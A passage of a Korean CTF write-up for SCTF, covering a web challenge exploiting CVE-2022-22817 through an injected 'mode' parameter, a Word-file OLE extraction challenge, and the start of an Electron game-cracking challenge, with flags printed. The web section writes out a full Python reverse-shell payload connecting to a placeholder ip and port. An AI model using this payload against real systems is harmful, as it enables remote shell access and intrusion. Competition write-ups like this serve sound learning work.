 CVE-2022-22817을 이용한 문제였다. 

왠지 공격자가 입력할 수 있는 유일한 창구인 mode 변수에 exec를 주고 임의 명령을 실행시킬 수 있을 것 같았다.

```
/dynamic/modified?mode=exec("import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/sh')")
```

파이썬에서 리버스 쉘 코드 찾아서, 가져다가 실행시켰고, 플래그 찾아서 읽었다.

![web](0824-sctf-writeup/03-web2.png)

`SCTF{3acH_1m@ge_Has_iTs_0wN_MagIC}`

## **Reversing & Misc**
### **DocsArchive**

![docs1](0824-sctf-writeup/04-docs0.png)

원본 파일을 복사해두고, 워드 파일을 zip로 바꿔서 압축해제했다.

![docs2](0824-sctf-writeup/04-docs1.png)

그러면 여러 파일 및 폴더가 존재하는 것을 볼 수 있는데, 여기서 word\embeddings\oleObject1.bin을 보면 첨부된 파일을 볼 수 있다.

![docs3](0824-sctf-writeup/04-docs2.png)

파일의 헤더가 `D0 CF 11 E0 A1 B1 1A E1`이다.

여기에 해당하는 게 여러 개라 다 찍먹했다.. ~~모르면 맞아야지~~

![docs4](0824-sctf-writeup/04-docs3.png)

다 안 됐다! 그래서, HxD로 봤을 때, 눈에 띄던 이미지 파일만 먼저 추출해보기로 했다.

![docs5](0824-sctf-writeup/04-docs4.png)

? 플래그였다.

`SCTF{Do-y0u-kn0w-01E-4nd-3mf-forM4t?}`

이렇게 푸는 거 아닌가보당.

### **Maze Adventure**

![maze1](0824-sctf-writeup/05-maze1.png)

electron으로 만들어진 게임에서 crack을 만드는 문제이다. 돈을 많이 벌어야 하고, 스테이지 3를 깨야 한다는 조건이 있었다.

electron의 소스 코드는 쉽게 얻을 수 있는데, 바로, npm을 통해 asar 패키지를 설치해서 사용하면 된다.

문제에서 제공한 파일을 실행시키면, `/tmp/.mount*`로 Maze Adventure 디렉토리가 생긴다. 그걸 그대로 복사해왔다.

그리고, resource/app.asar에서 소스 코드를 얻어냈다. [참고](https://medium.com/how-to-electron/how-to-get-source-code-of-any-electron-application-cbb5c7726c37)
